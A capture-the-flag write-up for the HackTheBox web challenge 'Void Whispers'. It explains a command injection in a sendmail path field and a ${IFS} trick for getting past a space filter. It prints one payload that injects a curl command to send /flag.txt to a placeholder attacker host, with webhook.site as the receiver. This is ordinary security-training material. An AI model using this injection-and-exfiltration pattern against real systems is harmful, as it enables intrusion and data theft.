 ```yaml
---
title: Void Whispers
tags:
  - CTF
  - HackTheBox
  - Web
---
```

Once we downloaded the files, we inspect the `Dockerfile`. As we can see, the flag is stored in `/flag.txt`:

![](Pasted%20image%2020241023153233.png)

So I decided to take a look at `IndexController.php`:

![](Pasted%20image%2020241023153332.png)

First of all, we can't use spaces, and then the `$sendMailPath` is vulnerable to Command Injection. In this case, we can use a special environment of Unix systems which is `${IFS}`, that stands for "Internal Field Separator". It is used by the shell to separate words in a command (like the space, the tab or a newline).

- I've created a note related to this, because it seems interesting to me to have this stored here since now: [Unix Environment Variables 🌋](/notes/Linux%20things/special_unix_environment_variables.md)

Payload: `/usr/sbin/sendmail;curl${IFS}<https://YOUR_IP>/?x=$(cat${IFS}/flag.txt)`

So here I'll be using [Webhook.site](https://webhook.site/) to have a temporally web server and send there the curl output:

![](Pasted%20image%2020241023153848.png)
Now I checked the webserver:

![](Pasted%20image%2020241023153919.png)